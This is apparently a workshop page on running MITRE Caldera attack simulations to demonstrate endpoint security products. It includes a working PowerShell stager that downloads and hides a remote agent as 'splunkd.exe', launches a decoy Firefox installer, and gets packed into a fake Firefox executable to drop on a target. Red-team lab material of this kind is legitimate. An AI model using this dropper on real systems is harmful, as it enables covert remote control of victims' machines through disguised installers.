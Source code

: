 ```yaml
---
title: "Mitre Caldera"
chapter: false
weight: 31
pre: "<b>3.1 </b>"
---
```

## Mitre Caldera
CALDERA™ is a cybersecurity framework developed by MITRE that empowers cyber practitioners to save time, money, and energy through automated security assessments.

We are using Caldera as one of the tools to help us evaluate how Cloud One Workload Security and Vision One could empower companies to improve their security posture and risk management.

----
### Mitre Caldera - Pre-Configuration
Before starting the attack simulation, be sure you updated the Mitre Caldera Global Configurations.
You must replace the IP Address (0.0.0.0) with the Public IP Address you use to access the Mitre Caldera management console.

{{< youtube id="V4AxIqFGqrU" >}}

---
### Mitre Caldera - Creating and Dropping the Malicious Payloads
After you update the IP Configuration, you are ready to create the payloads we are going to use with this demo.

#### Windows Payload
In this step you are going to create a malicious payload (Windows Based), packing it into an executable file (that simulates the Mozilla Firefox Installation), and then uploading it to filebin.net. The output URL will be used to drop this 0-day malware to the target Windows Computer.

You can generate the Caldera Agent manually, or copy and paste the following script on the https://ps2exe.azurewebsites.net/ website. Just make sure you replaced the $server variable with the Caldera Public IP Address. Save the file generated as Firefox.exe. 

---
> Windows Payload (Example)
        
$server="http://add-the-caldera-ip-address-here";

$url="$server/file/download";

$wc=New-Object System.Net.WebClient;

$wc.Headers.add(“platform”,“windows”);

$wc.Headers.add(“file”,“sandcat.go”);

$data=$wc.DownloadData($url);

get-process | ? {$_.modules.filename -like “C:\Users\Public\splunkd.exe”} | stop-process -f;

rm -force “C:\Users\Public\splunkd.exe” -ea ignore;

[io.file]::WriteAllBytes(“C:\Users\Public\splunkd.exe”,$data) | Out-Null;

Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList “-server $server -group red” -WindowStyle hidden;

Invoke-WebRequest "https://v1demoplatform.s3.us-west-1.amazonaws.com/v1-c1ws-demo/Firefox.msi" -OutFile c:\firefox.msi;

msiexec “c:\firefox.msi”

---

.

<b>After you exported the file, upload it to filebin.net and take a note of the output url.</b>

This URL must be used to download the Firef0x-update.exe file to the Windows Client, and then executed with Administrator rights.

References:
- 
- PS1toEXE - https://ps2exe.azurewebsites.net/
- Online Storage - https://filebin.net/

{{< youtube id="gDRnkEwhMwI" >}}

---
